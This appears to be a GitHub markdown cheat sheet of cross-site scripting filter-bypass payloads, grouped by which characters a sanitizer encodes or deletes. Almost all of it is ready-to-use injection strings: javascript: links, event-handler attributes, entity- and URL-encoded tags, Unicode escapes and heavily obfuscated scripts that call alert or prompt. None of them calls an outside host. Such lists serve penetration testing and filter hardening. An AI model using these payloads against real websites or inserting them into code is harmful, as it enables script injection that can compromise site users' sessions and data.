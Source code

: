 ### 1.If you cannot escape from the attribute (" is being encoded or deleted)

Try to use this payloads :
```
1) <a href="javascript:alert(1)"  >Click</a>

2) <a href="&#01;javascript:alert(1)">Click</a>

3) <a src="google.com" onclick="alert(1)"  >Click</a>
```
Or try to replace " with \u0022, > with \u003e and < with \u003c. So the payload will be:
```
4) \u0022\u003e\u003cimg src=x onerror=alert(1)\u003e\u003cx y=\u0022
```

### 2.If you can escape from the attribute but not from the tag (> is encoded or deleted)

Try to event handlers :
```
1) <input   value"XXXXXXX"   onclick=alert(1)  >Click</input>

2) <input  type:"text" value="XSS"  accesskey="x" onclick="alert(1)" > <!--    If you cannot escape from the attribute (" is being encoded or deleted))

3) <img src=x  onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

4) </div><a  src="google.com"  href="javaSCRIPT&colon;alert(/xss/)">XSS</a>

5) <a  href=https://google.com onclick=alert(document.location.hash.substring(1))#{saasasasas}>Click</a>
```
or use encodes:
```
%3cscript%3e
%253cscript%253e
&lt;script&gt;

%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>
```
### 3.If alert is encoded or deleted

Try to use this payloads :
```
1) <script>$='',_=!$+$,$$=!_+$,$_=$+{},_$=_[$++],__=_[_$$=$],_$_=++_$$+$,$$$=$_[_$$+_$_],_[$$$+=$_[$]+(_.$$+$_)[$]+$$[_$_]+_$+__+_[_$$]+$$$+_$+$_[$]+__][$$$]($$[$]+$$[_$$]+_[_$_]+__+_$+"($)")()</script>

2) <script>[[,$,_,$$,__,$_,_$,$$$,$__,,___]=[![]+[]+!![]][+[]]+[][[]]],$$_=[][$+$_],[,,,$_$,,,_$$,,,,,__$,_$_]=[...$$_+[]],$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$$$_[$_$+_$$+___+$$+$_+_$+$$$+$_$+$_+_$$+_$]($+_+__+_$+$_+__$+[+!!$]+_$_)()</script>

3) <script>
   (
   [
   ,
   O
   ,
   B
   ,
   J
   ,
   E
   ,
   C
   ,
   ,
   ]
   =
   [
   ]
   +
   {
   }
   ,
   [
   T
   ,
   R
   ,
   U
   ,
   E
   ,
   F
   ,
   A
   ,
   L
   ,
   S
   ,
   ,
   ,
   N
   ]
   =
   [
   !
   !
   O
   ]
   +
   !
   O
   +
   B
   .
   E
   )
   [
   X
   =
   C
   +
   O
   +
   N
   +
   S
   +
   T
   +
   R
   +
   U
   +
   C
   +
   T
   +
   O
   +
   R
   ]
   [
   X
   ]
   (
   A
   +
   L
   +
   E
   +
   R
   +
   T
   +
   `
   (
   1
   )
   `
   )
   (
   )
   </script>
   
4) <html>
   <body>
   <head>
   <meta charset="utf-8">   
   </head> 
   <script>
   ᐁ='',ᐃ=!ᐁ+ᐁ,ᐅ=!ᐃ+ᐁ
   ᐊ=ᐁ+{},ᐄ=ᐃ[ᐁ++],ᐆ=
   ᐃ[ᐋ=ᐁ],ᐒ=++ᐋ+ᐁ,ᐗ
   =ᐊ[ᐋ+ᐒ],ᐃ[ᐗ+=ᐊ[ᐁ]
   +(ᐃ.ᐅ+ᐊ)[ᐁ]+ᐅ[ᐒ]+ᐄ
   +ᐆ+ᐃ[ᐋ]+ᐗ+ᐄ+ᐊ[ᐁ]
   +ᐆ][ᐗ](ᐅ[ᐁ]+ᐅ[ᐋ]+ᐃ
   [ᐒ]+ᐆ+ᐄ+"`ᐁᐃ`")()
   </script>
   </html>
   </body>

5) <script>prompt(1)</script>

```

### 4.If space is encoded or deleted
```
use tab ;)
```

### 5.If () is encoded or deleted
```
<script>alert`1`</script>
```

### 5.If <script> is encoded or deleted try other tags like:
```
SVG, img, iframe 
```
